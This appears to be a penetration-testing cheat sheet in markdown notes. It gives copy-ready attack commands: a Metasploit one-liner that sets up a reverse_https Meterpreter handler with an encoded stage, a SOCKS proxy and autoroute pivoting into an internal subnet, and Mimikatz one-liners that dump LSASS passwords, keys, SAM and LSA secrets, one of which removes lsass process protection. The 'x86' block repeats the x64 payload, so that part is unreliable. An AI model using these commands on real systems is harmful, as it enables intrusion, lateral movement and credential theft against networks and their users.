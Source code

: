 ```ad-note
title: Meterpreter AutoRoute + Listener
collapse:yes

These commands are useful when you are about to compromise a machine and know the subnet where the other target machines are connected. 

You want to run a shellcode runner to connect to your meterpreter listener. Once the connection is established this command will make an autoroute SOCKS5 session, and you will be able to connect to the other machines via proxychains.

> Remember to change the subnet IP address when using these.

*x64*

~~~bash
msfconsole -q -x "use auxiliary/server/socks_proxy; set SRVPORT 1080; set SRVHOST 127.0.0.1; run -j; use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST tun0; set LPORT 443; set AutoRunScript 'autoroute -s 172.16.231.0/24'; set EnableStageEncoding true; set StageEncoder x64/xor_dynamic; run"
~~~

*x86*

~~~bash
msfconsole -q -x "use auxiliary/server/socks_proxy; set SRVPORT 1080; set SRVHOST 127.0.0.1; run -j; use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST tun0; set LPORT 443; set AutoRunScript 'autoroute -s 172.16.231.0/24'; set EnableStageEncoding true; set StageEncoder x64/xor_dynamic; run"
~~~
```

## Credential Access (OS Credential Dumping)

> If you have obtained privileged access to the host, take a moment to dump credentials from LSASS using mimikatz.

~~~ad-note
title: Mimikatz LSASS Dump

*Mimikatz One-Liner*

```powershell
mimikatz.exe "privilege::debug" "log HOSTNAME.txt" "sekurlsa::logonpasswords" "sekurlsa::ekeys" "token::elevate" "lsadump::sam" "lsadump::secrets"
```

*Mimikatz One-Liner + PPL* (mimikatz trunk needed)

```powershell
mimikatz.exe "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "log HOSTNAME.txt" "sekurlsa::logonpasswords" "sekurlsa::ekeys" "token::elevate" "lsadump::sam" "lsadump::secrets"
```
~~~
